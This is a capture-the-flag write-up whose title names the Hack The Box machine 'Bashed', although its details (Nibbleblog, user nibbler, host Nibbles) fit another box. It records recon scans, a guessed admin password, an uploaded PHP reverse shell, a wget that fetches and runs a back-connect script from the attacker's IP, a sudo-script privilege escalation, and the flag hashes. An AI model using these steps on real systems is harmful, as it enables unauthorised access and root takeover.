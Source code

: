 ```yaml
---
layout: post
title:  "HTB Bashed Linux"
description : 
tags: 
---
```


# Recon
Nmap scan
```ruby
CVEs_10.10.10.75.nmap 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.019s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.18:
| CVE-2017-7679 7.5 https://vulners.com/cve/CVE-2017-7679
| CVE-2017-7668 7.5 https://vulners.com/cve/CVE-2017-7668
| CVE-2017-3169 7.5 https://vulners.com/cve/CVE-2017-3169
| CVE-2017-3167 7.5 https://vulners.com/cve/CVE-2017-3167
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nikto scan privides with soe interesting directories
```ruby
+ OSVDB-3268: /nibbleblog/admin/: Directory indexing found.
+ OSVDB-3092: /nibbleblog/admin.php: This might be interesting...
+ OSVDB-3092: /nibbleblog/admin/: This might be interesting...
+ OSVDB-3092: /nibbleblog/README: README file found.
+ OSVDB-3092: /nibbleblog/install.php: install.php file found.
+ OSVDB-3092: /nibbleblog/LICENSE.txt: License file found may identify site software.
```
Dirbuster scan 
![](https://lh3.googleusercontent.com/O8O6QOXvhgZh9jnKlA59gpgYz-_wPpKX72LRQ9mip9oGFd97gVKhXle1RWT2R_OAWeKcx0NsGzCljG8AbDiwKohjJIbRbWy_rEJAHTHZpwAfMlGMPfnzNg_syKkZRBKv1a2TE3OTM3Pcpe9eZ7S6arENqx_9JISoapDs887w-u4Ol4RpHTVrBp5hhdUZCtjPM0zTzK8uLYz-kZuckxTv-KN-Jb0mQmLGxi7aC3W0UQYTHFR10DOhsqTM9kkIBH-vS34R5WScerokQxCO0Zv5QhA7irPWCVk-MbDy6LSKqymmcnJRPWNdX7T4fwfTCfv0oUScyeYFccHjsuG7D7Ecpb-BqFKagtjlOblpCR5oQ3hMMBWfuIKIK-xxA9isi2e8SZxx2Fep3iCqRQ_JwB1qo7gGGga4dKeRd_FJfvKyX6Um8_Uhe2uheAs2hPb_WomzetzhOEEHiAQW6iGfI_UquAlLfsC_4lHF7vkbPwvTW1WWAsgzm947GcWJAOj3BJRxljxvIYfCFDudCBO4_i0DOPqu0PZu3RkXMD5H-uarDw3GpA-l1OlyYuDNzhKPZhkChPr3ehC8m7JLMNboce1tiVCAmUl_1mAnjRF-ck_lCpYWeGfRs_a55x3wiYYDg6hg3j_atRE1YmoMoDh02Xdjkp8uE48FsnXpbr4X7BJLRZpQKCTjmw1RA4c=w593-h349-no)

Nikto scan
![](https://lh3.googleusercontent.com/9IJ4zVGci7GYTh3uVURd1ZM_yiataJng3rXEl7RZKyOWFspIuQ50oZHNs7TAcMpWUjOTaoPmOLDDlBFHCbuLGJkBgSryNF6j0qzAscU2T-4mxeF6sUoKr3zEAoL2LyrTScXqUp_C9FsaMFDZ312hzHwKNOnb-TdrQORtIeeY--PSRsNl5UkDirblx1bUw1aUz6gafZPt3Dgd-P8dnGEennHwCTqxc3Hr10Dggt3l84XoMu5p4VCEcoh7mAx_Gg0IY7SXyAGek-tpmlL51H4jmVLiL2i2a4eoAEcXJfF4I8X5VPZjtY2Zk3Cknl8wMEqJa1-6uJtqDi8bOx1E-8VUk2RsQNlSMNMjaYO3Dva2gveAHFq-HxJpYeuk2dndIqu2-wKBZtnpqxo5lkCeTovQZZ__ozdTw9TM5B3w1NJb9HVd39uD9k6qa9Q3V377t6m4upXjwtoY_LBOdzqZ5R4F6XTKdaOrQFhmP3nMV1MZyC-16-5O3RkDul3ic5lZpTZFqd6BgCGQZkYR5TjbZSqL12huAmjd-6GgSbOzAlwcyU8qZIV1k23p4kngH8epu0Wjj1yvuYpoD6jxoYu5Gd9yVDrzADgwaujvzqA0XIVZISYTSQTsP1Eu43nl5JQGNzLLddBHKmwMQg3yNRqYa3E1y5Jlbevn948AwvS7TEtLT0mSlTV0-By2-eA=w762-h179-no)

Nibble blog
![](https://lh3.googleusercontent.com/nwvnUxicD_EURq8eFODQ44Xz1REIRhYjmy2bWgKqmMjKMOPZaBk9tPiL1IrSRoIZlWUkiTXM4RMoJcJWCifDJEiPYtyvl8o8ddDHnbuYNyY0ChHZ2IokV-6SjW41QBLsaDzl5SopsfC1AzceKoo9CkV1wl4la5gVgPfRhUE882zQro1HkYemPDXMYxg4yfLdUM5qdQx7GXo0iG2Xm0t_td-jWN-WUjhNiFZQGdrlZU5FFaLlp7FGVBRWXm_-40VaJKYohXPN4YdNuPrxgPwTKAH2h7qgDuMaDMpSZHApDV9sz8Pkw9fu3OG3J2U8pCMS6TYmPHeF4xR7jsrys1walnA5VRDJCQBT--oLLxcjR5Kscz_A6wj4WdvQ-HAKqX4ltPiZPLeP8XlGrgW7pF7yWe5baNVgwLJHwa508llLkp5tdY9OO-bnKv-j12-Z9bdjq0GAperwo2sDH43Ihyb8caNRlwWfPkf_DNl5117wfDqNzQrC24oMDVtQuLjEnWNsmSrMdl81gskQJtDlpEZGl_LnvEz_wK90m-TSg8EEQj0FIOFaPVoLPfM8HRCFu3PVDMM9DixLiIFdSKOjyNuClrS8qHfjjplkcuZRjcMTPegxEr0KWxVbL8dKz0c01UIFeUsTOF8gjI9GGMb-xvwiIyRF2Do6ylA478m8bAVgawDl6EAvXw7YzXY=w618-h464-no)

![](https://lh3.googleusercontent.com/1bW33_11QaosNRFr2BqgoYEaMEIuoJtnOOVjTmlOBY6zRkZeqwzxIElhCdONIlz-GKCf7lJ3tFtrUAvYjPSena-x1tGXJn7ucK4LgTzwXIbaaiFsDEEKCtRgKbTajrIWCRzroAI97Rcx-G1fUKmmRxHK7rKWC5cRt4k2qwe-QDRKUT7xvfMI0DBblhYeIDvAblx9MG4HYblhjOMzcf7OHnXNpkXsRKE0d4wZH9_i1KxF9sj-FrhvYZLhS9HFLwgPQRvmZRHsqCpBke7QAIjqGKaCC-XLnoWTw2qSIDb6B1AzNZSBx_2ZB06YpyBvey3jUVIu7rwMtBgcFI-iwY6gxTdq_KEo2sw9nWhY7MTMaTSsFRHqdKD5IahdFL74hqfsEyz_1ttXeMuLD9ecbEVo8FsvM-VTZ1r-2kisZDE5NfVUsKcyNa1QLJ36qQvl2O0vsX2QC5d0eFhMflCE9iaRwjgBS2StRtSztyepU_-a-T1jUj3ZZgolxkTEXkGwPcm8IqdC4r4LjiqCDlXogsoeixzpsGdsdYCP9V7HxqutlygqBZPcwBTQdGF7E8CBRdTTG6ZOZ9XHnPYflS5jDCBBY-J5IgTMRKyWudrhBMRHP4Vwfi8XvQjPMNv7lrwJfODR3q5r9y_r4VJxB6X0LAZLrsSTPFwNQDG4OLg035j5SLKTTcVcqM6TGAE=w596-h435-no)

![](https://lh3.googleusercontent.com/NWMVhPUxMXwoSCTXW-bYa_JknTOQC_r7Zga3XzqHuC5IG6lEDmQleeFCRuapW1gE6asbIabYozIP6NExfJOOZsRezY6IdteS9BJB-9uis1uj_8YZ9pTBGnvzUdNPpxwhvpJ_6LoI67wDIGY4i3A79_KolWqC-fROUXdirKd056QJyfs0Iwsi4WQokdiSAVAa8_MRTyPlZFT_sEI4WzBbKxWJ2VX6leiM73WW6y8i083axkkiZQRai09cVaGh5MQc33rIKqLHk-QVnaIRybeqk4yedesvOmNFL7tjyNAkfADfzW52QX-ePUCMg8Joo9-8FWqLCS1hPU7nB-XvtOJqICj3MfBeJYo8KfNJyF5Sb2zUlQXijhNjil0bReMWLN_3e7ReXECg0mY9Q9TdLzWurEBm_8ux6sr3OaTDyAqfrQBtKltggsTPD0I1E158KHvo_jdmJ5C_7s-D5Ffpv1vMt9BoA9up3InQfbU5uwBxq8GdaadRTcOh3LNpRMrEevd3kME9_AgzT59o-RHNR6TDmH-x3IeBqd9agn_u0ba4hL2eADBbx1Aj8PBXem8jZdv3FWbxQ9CUydvTYGBaEOyMtkC6fJt5PAoVGsNWs1OBSw5o0Z2Cypj-PvDcBnJVEib7KRZ1WjbgSf3h43pYDaOe_y-am-TO5fpc3qJgUBop2S-EXcdCRxCGPI0=w525-h146-no)

![](https://lh3.googleusercontent.com/F3rZsw8bA2d1mBitjHMjBOeFIQUW-fI8ZImbHJof21FMBcuvWr_rDjxuM0oNnR24Yje-VRQVbwSTzNH69Y9B5X_46X4cr3GIr-XT5aq8jeaoZXcgsZfu1H4e7PAUdGtL_HXygiv7Y1GOxQMebZP9zwWcGCZd940H1xH1RJBEp-k6Cq9JCgzsn5zSIaj_DPq0EVwovyUKUO2jiGXKLUkB3cRbRdnhC3mag40YN9xphnEdAUjlhtyZvoF358P36WyNGEu9J1A6CBn3PlGKedwczqBuafjuJgM9nuhXrbt-Qmg5EKX51Z08Ah7v0_C8N5I15MOKyaOZH0qK_ThvEfuHQq8B-A02OXbq8vx_XTIgXjdDdtDGHvyKTCQxVrqMHCNU9_rCY7u8vtmG-87EdJEiN5eF4arhlvwJgSLMFkPcAacBMHIoR7hV86LTF67yYtM6HOUizej8G3tBCvW5bUnSRm7wxzG5rdvFXnYirQ9Gq9k914USrU15jG3y3cnkXG6YslYB2ZMWJtNHe3idT7titmVcLJwqEqG_uSZavBOkCcR9el0eEurzDIre5i439gTXBTYR-Pn4ZYTMVIHVnTq0N3pxRpxre8opS8e0vmn5zbTzIN8up6DQhykprM-3G8FY45vfxINERdl6ATmRgj7psGxhPzNCt9U5cpvqpVpIYGJ-1R6Q71Yp_hY=w724-h323-no)

![](https://lh3.googleusercontent.com/fOx1G3In-Usf9XZJ0qlKuc3I_il-HRkAtdSATS4GZDXk_8rD2xuCpGvi-B5o5iigwTLmUhaH7SdZdALu_oElOfU1nyFDbdPyM8w-qCUiTVKoEEZXMRNhouCRMUSQCg7klZcHbZWDo6_KI60ylkyPrbpHUxBvDoTSFRsBb-CX-h8O4IKPYyjhsnAsr9WxzgPFo1nfsouCa2MDyg-eTjTbgkZJI7c_dWGIxDibBVeKe7mSsgxakMMjOgHVpjc1xonFBn30vrR-Bc__0JnZJdcrV6rXn-i7lYqO2TNJpczYjcIJ7cTz__TjVST0ehm2iogDIgdntKzVg7mX_avsvpM8-Bz1SVhB-uOt9eVaEgckqEZFg43aJiARovdH7OAHKnR4H2V61FIf2X9F90ZX0PxCC_s_QgL1vqYtbIlnlLVCj9e3ZgOYAJnodHl9EEIGoKXB6JAgXTMknNx5gCDjSNqzJLyK5ustrPn_tIXuSpz3zQcgQk7Cnk8rq-M_rjokC89y8HkcbSKnq5Va3_f1v-BCunbvgFEEMvvxaefo5z75NIJzkD_YaIHYP1GvMhCsui3U2MiAJL9YXEsikAVEofU0SsXt20M8gO8q0OG-8UJ2Eiu4I1CFM7HTJg6axLa57zkZDX-QYmKf9-5topWjEjxyAM8Mo4EPb_wYrjdRp63xBottdLpjWSlb3i4=w669-h410-no)



# Exploitation
Nibbleblog 4.0.3 is vulnerable to Arbitrary File Upload. 
I tried bruteforcing the admin password with Hydra but not luck there. However I was successfull guessing the password: **nibble**
![](https://lh3.googleusercontent.com/NlJDIz-Zraqt9x2fKnDqAHrfAzGI7ofO5eZFB_phUoFUyq-wpb5t2Hy815htdpa4MB1z-ED8E1iT_K70z8Ve0J3VaOo3ZUsxCBR4pivGDvBOelsxnPnahfVhxEmvptC4u-2Y5yojC90AB2Td_YpZ10CNDzaPRERdjsUMt4_T6_tN1HPoEeAbkQpBfCAZia315vnPCp_YZexAF4EHBLWWgf0zvKuq7bpatff8IMg_Tztq-sXiulAYsnijjNsFldvM_a9UF2yFN-SPD33F2do9dxl2PHhS8Zb_fr4kORGjC6L5vR9XUQWlBVJFBEMKc3xXjqu6W39dtMJOQ-MNwdaowwBB5a4M346XfWPZNSuzmlIT9W5nPGVDYfI2qD1r8ym74d_SYiBZARJLhov7HNKc7cGmLBR2zQ4iIefUAD0tp6XBS--wmCqvl4WKBWGztgY4wyaCKAKA2xF3CL5O8rUi-u_HNFGG1Orhs9xkjODWNyjbTf623Ak8LlQrhBjluxscQ_Fq5Bcfsl8jW9T5EHulOHVSLBGYqXtbXN7gbTD2J8y2NSnnBfaRLGw2pfOkVYyxG7WO5XXr65RzWBfpzbrBWcNnge4C0UdiIG-Xuc1W2tIcyQff7wp5PMWgVzcQ-EwmKiAZOYA1nH-FtCJQZ_rspSL93QIdoMLqxuzgKbIUdmxcvLEmDYCvNe8=w808-h328-no)

We upload a php reverse shell, under the tab **plugins** and get user shell as nibble
![](https://lh3.googleusercontent.com/_D4O8HUsMsAphI1npaL4FcaBSLBEHTg39_6Vf_O_Ba4ymwVJBUQ9yt9nzPI8xDp8cXcY18TsD6822nAKPFallJsxzqgmigSdeh32hUWfDXDFpI8QoEd69ny6qRAbsC9eXw1ERRKBgzgoaTsVCsCc-8vg9R1mCb9OpIXAawpD3OncpbUCoclbi3ZNpGaDx6HAYQxuJuwqTo1UEOs8tACf_IOnrR-4DOBNo2jMec1uZIe4yHQogl0JETtije5j5QqE1LnG9QGZtTl8C2BcbW8Jh7aZzp_LMWtX1gbAXqW69cprrSnY-70jjmBNTZyi0of4ffIHTbvEvNx6FDRvglN1KsfT7A52yhiyWZda6QWD1uBHaEMz02AsziDFYY4T5rOS3VPYpex6WQN8Dg4DUkF4BmGhSCKCKaXJoMgNlV5qAIS2xov_GR0X7IfqGKWEgBXVKQ-POPOJxJYTCYKT5PKkQWnZgnVBfigi4h6GpyeeBI7HBfjZIQmRZd50lKKXFPBVPjQ0h9IBfOs61y9JYS6pisAjP2T4OlJfw0f4wJC6IlwVnAmW7u2FTOL3dyYTwkdzGVgL3h7tM7wAiChZ7jmujcGQjQKjvhGF2uxnwXw1_cfDfT9hfm8Jp_bQxvF9o-w7zp-JuUB7zF6TpL8WPopY0VRH_nKEJXAU76rjKaCdErHkIII4_qJD_bk=w583-h392-no)

![](https://lh3.googleusercontent.com/lBLMPxKTGghiCh-1UCk_5U1tVeZSusNgCo0-a-yBxBMQhPSTje-psP9sEQEFuu2pz1zpSeOyKWJIsBHZ2pScLEfUye8voqlICnAe-NFyMhNqhanT1oIhPlrT8vQnjTG0DRC7264-QgU_mtKwD7AA_Qjcpy8jdgeUq-pDayV31KXVWG_OK65Zk6FDLGqyizZcN8jtzWH78GSw4d_RmLvu_sgjbZpwuiyeKLUAGehOSzfYJuGwpjMAVWqLE2ni-1FbKKAR-6ub4pqBw9CvFzXCqTowd5YspfGfwiXNRORbvoY2YfzKYxnvyj1Eisa9G-Sfb8idCV59-pDvru_D7Mu7S6lZc7qf2AyzmiK6Rq_ep5pUE7ShfQGPqikLERGcc9uOYuQeDNsQgbq-L-uc3ld1-g6HR3WUQVcPSOxcYRnUrDPJb6TwLwE-zJ9Xh8itL4sD3PA8_xP0H9_EjkZP1WDNftJiXr5DsWxuGPzNGi85o6bT1cUoNRt0Z4KK3C5M86RP8Z69e02B8Q-RZPhYI-6knB11W9eRvw5OR9SrpqJ1UNkx9TwEOdHQ_FvVXSxpu2bYn4d_hS60gZxwVQ_sENBU5tOJyJStPgaaspwnJNwIASTe9Tn0_6G6IClgIkEULNG_q4ANIaBsIxL1n_AjufeZSvuvzI_kloUY2lGhZc9fuFdL-gz-ZTXE9Yk=w624-h250-no)

Shell is limited so we spawn a python shell
```ruby
wget 10.10.14.25/tcp_pty_backconnect.py
python3 tcp_pty_backconnect.py
```
# Privilege Escalation
We run LinuxEnum script and we got our potential priv-esc path
```ruby
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/
bin\:/sbin\:/bin\:/snap/bin
User nibbler may run the following commands on Nibbles:
 (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
![](https://lh3.googleusercontent.com/z0A7qNJRe-dEl30SnhG4rqTUSRiIYABrbsqfeWyax9VwL9OS_EGSiob92gvjCarf9ty2BpcOMJPxfPsBtFqqtvwLDV_zWFG3BvlrWCIqRPm-r8DCAK1z0E8_YflgoiuUSRCG2p02iV0ZdhXHE2eNjS8QfXdXSktEAiY540_EjwN2w16JxIpyC3jO2MpXIntOggxVgSrT7VPE4gLwiK3asSef10K2JpWDUmpBMjj9954oFF9IaSIuHyQyO-PF_54Ah0Tbft5rfKltEOOIitl87AmUR-s0RRQxsH4itrMBnKrtUv2HuXPUM2omf1jDVsRWk8knfspQxp1C9wKFjzr9azORMxd4yYSedqFHohrnfbz04iaZp2EaAgbxm5BQW1_iJmAqjAQ5ypAC0BRZhcePLAltZQGpNH21ZDEzzSbG7qeZ9v7okA5jMYJuZd9_zEia39jRZOgl5Tuo1QooUttoGN_XOrY2hOgyoI0fhCayyAhIgEgDJAHCH1Iof2MPrur9ZUl5fTjSub-URALSouaZRPQkbZ49Wk4UDHx0-pv9spG1Z13cYC45Ln2DmptFJLMuzoI_0UY-HZtj6v79QIc49MopnDRsVv2swDl7epr1ncqwX0__VZjxwRefNaorA3YhLj-PKuiRdQNw0ktzADTRY4vERU4R1K7m6oZCVsqq-2EPH29Q4_q1Se0=w609-h211-no)

First we mkdir the /personal/stuff directory and the we create a file called monitor.sh
![](https://lh3.googleusercontent.com/Sg65rie17x6YoZ_7knoSMAqWDJoVf2pA9DAkrv2RKN-vNlpjjmr-Rn4oBRV1Ahv1NXflHftx06L4mVbA7l_pwYQmTKcecKWVtKxe3jBReF_BlOW3mXOggehd8jW2FPD3qXJD7umK0_-pHTT7aHJyItTOCRXVk5vNQsmpNQ7iX4GA5u4UtZQF3yuTHv5ldKd0AX5JJ79-cp3p89aFaeStq7BWErdLx198S8SAC0ZNP0JcoFNUayY1Eq271waWrWPR4zXPIc3xcYq7k2IqJ2SAMfnK7qteneDLZfC96Z3Eq7i19lvx9-6kELTKk6QPwsHNhNU-2g6WrJVsynVq5npk-gvjSERmQ14Y3cnIYKvmvW0DiwPC8zzj-Ozz159mKuVXHgnzoIJEVbBdGkzeyGJFatGL4R9oS50rQwbDbn9VzlI8VJEddUis8YGMp7MrDPE5LM9SaHRNTzQh8tJ8hmg-3BGT5RCKWxbJGYNf70Yx90hUvfBrK6jGwKoFGjYoxdqede9tqxa91YUMzOYXLzg2k-PwlTHDzLIORwoYViHXX1GPjh81V3aOecD9J-WSk1asTCryvbOTAGqbiJvIAgk3XDFIWi-FVoXiBGM93OjH8Byq7KPCoTTLo_krWC12Obge2PO55tRnOh0WkObpHFZUW2P-ixwSqkyAdcdRMruGavHxQeT8sDXxJyQ=w627-h46-no)

We echo "bash" to monitor.sh and chmod it 755 and we procceed to run it as sudo and finally we got root
```ruby
sudo ./monitor.sh
```
![](https://lh3.googleusercontent.com/Fv8tYFmskENU5qCUgqUCUE6JItSeqH3y7Gny6R31Xti599zW3h8rtqRBywCRxxwYqJpHMBMBQh23MBQWS5bO992GbEx8piXZtyDFsUPW1JRKdQheG_-xPl4kkFJCjjyeJNA_s6S9AcyxD-bboovd96VkFMaqBBt4Zn8WcAGqHLobtLuj0MnqTzJ4tbvM_80bnq743iuNwgifhg0xcRj_QNUxzXiHNyLxh6Dj_KnoTmeyw6BZGaY0UafTwrFs5-SNfLbLxGyPSyv-IcK1iguW1mV8edOmKcu8N-91JBSyvnBItqFBntdK16EuJp-ai7IaSELUGtDYFVPZSq5Ep7OKNkf4QFDgeRyf2WYp7VbVdbq3vAmYFTftpYv0ubnlXZaoOn8MWxBEZIIfO1y5uvVy-YEC6lNEp9ouIvsK3AOfrI-3QY3ks4JRBnntgz3l8Qg0_ZI-rTsndd6zo9Q44JhEyf0ar-IqpvLboxXRonA7EUQzHQ6walNQQZ4gkKYMtJvcQlG1x2je7ODhEgrrwJZNogcyxHiE9yT9Wp_iPqI5JSwndB5dY0JIyEkw6o0GbBDDuqnpxlUvvMeHE-Y3rrVF_3DgNUBtsMHv5epcc0KB4A9pnRa2mogwzEqcGjioH-HK88mXeJ32Lxdzd3rVYek8VuXVEueCbdIbdzOsiapgSbw1AI5jYMDQt2A=w708-h99-no)

```ruby
 ROOT  "b6d745c0dfb6457c55591efc898ef88c" 
 USER  "b02ff32bb332deba49eeaed21152c8d8"
 ```
